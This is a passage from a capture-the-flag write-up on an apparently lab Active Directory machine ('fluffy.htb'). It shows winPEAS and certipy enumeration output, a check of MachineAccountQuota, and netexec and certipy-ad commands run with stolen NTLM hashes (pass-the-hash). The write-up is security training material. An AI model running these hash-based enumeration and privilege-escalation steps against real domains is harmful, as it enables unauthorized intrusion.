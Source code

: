 ```bash
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
Certificate Templates                   : [!] Could not find any certificate templates
```

Initially I found nothing but I will talk about it later in the write-up.

I then used winPEAS to grab possible vectors for privilege escalation. I then jumped into my second rabbit hole attempting to abuse the `SeMachineAccountPrivilege` privilege.

```cmd
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

After googling a bit more I found a [blog](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/) explaining how to abuse this privilege, however I also would need the privilege to add workstations to the domain which by default is in the `MS-DS-Machine-Account-Quota` parameter which defaults to 10.

With the use of `netexec` I can check if this is the case.

```bash
$ netexec ldap fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767 -M maq
LDAP        10.10.11.69     389    fluffy.htb       [-] Error retrieving os arch of 10.10.11.69: Could not connect: timed out
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767 
MAQ         10.10.11.69     389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.11.69     389    DC01             MachineAccountQuota: 0
```

However this parameter is set to **0** meaning this is not the route to go.

### Privilege escalation

After banging my head for a while I noticed that my certipy-ad was outdated so I decided to update it to a latest release and re-enunemerate the CAs.

```bash
$ certipy-ad find -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
```
